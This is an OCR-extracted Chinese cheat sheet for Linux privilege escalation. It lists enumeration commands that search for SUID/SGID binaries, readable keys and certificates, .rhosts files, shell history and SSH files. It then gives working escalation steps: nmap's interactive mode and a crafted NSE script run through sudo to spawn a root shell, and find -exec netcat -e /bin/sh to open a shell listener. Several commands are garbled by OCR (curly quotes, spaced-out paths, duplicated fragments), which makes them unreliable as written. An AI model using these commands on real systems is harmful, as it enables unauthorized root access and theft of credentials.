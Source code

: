 	
find / -perm -4000 -type f 2>/dev/null	查找SUID文件	
	
	
find / -uid 0 -perm -4000 -type f 2>/dev/null	查找root拥有的SUID文件	
	
	
find / -perm -2000 -type f 2>/dev/null	查找SGID文件（粘性位）	
	
	
find / ! -path “/proc/“ -perm -2 -type f -print 2>/dev/null	查找世界可写文件，不包括proc文件	
	
	
find / -type f ‘(‘ -name .cert -or -name .crt -or -name .pem -or -name .ca -or -name .p12 -or -name .cer -name .der ‘)’ ‘(‘ ‘(‘ -user support -perm -u=r ‘)’ -or ‘(‘ -group support -perm -g=r ‘)’ -or ‘(‘ -perm -o=r ‘)’ ‘)’ 2> /dev/null-or -name .cer -name *.der ‘)’ 2> /dev/null	查找您可以阅读的密钥或证书	
	
	
find /home –name *.rhosts -print 2>/dev/null	查找rhost配置文件	
	
	
find /etc -iname hosts.equiv -exec ls -la {} 2>/dev/null ; -exec cat {} 2>/dev/null ;	查找hosts.equiv，列出权限并管理文件内容	
	
	
cat ~/.bash_history	显示当前用户历史记录	
	
	
ls -la ~/.*_history	向当前用户分发各种历史文件	
	
	
ls -la ~/.ssh/	检查当前用户的ssh文件	
	
	
find /etc -maxdepth 1 -name ‘.conf’ -type f要么ls -la /etc/.conf	在/ etc中列出配置文件（深度1，在第一个命令中修改maxdepth参数以对其进行更改）	
	
	
lsof	grep ‘/home/\	/etc/\	/opt/‘	显示可能有趣的打开文件

也可以使用 sudo -l 命令列出当前用户可执行的命令

常用提权方式

nmap

find / -perm -u = s -type f 2> / dev / null –查找设置了SUID位的可执行文件
ls -la / usr / local / bin / nmap –让我们确认nmap是否设置了SUID位。
Nmap的SUID位置1。很多时候，管理员将SUID位设置为nmap，以便可以有效地扫描网络，因为如果不使用root特权运行它，则所有的nmap扫描技术都将无法使用。
但是，nmap（2.02-5.21）存在交换模式，可利用提权，我们可以在此模式下以交互方式运行nmap，从而可以转至shell。如果nmap设置了SUID位，它将以root特权运行，我们可以通过其交互模式访问’root’shell。
nmap –interactive –运行nmap交互模式！sh –我们可以从nmap shell转到系统shell
msf中的模块为：
exploit/unix/local/setuid_nmap

较新版可使用 —script 参数：

echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse && sudo nmap —script=/tmp/shell.nse

find

touch test

nc 反弹 shell：

find test -exec netcat -lvp 5555 -e /bin/sh \;
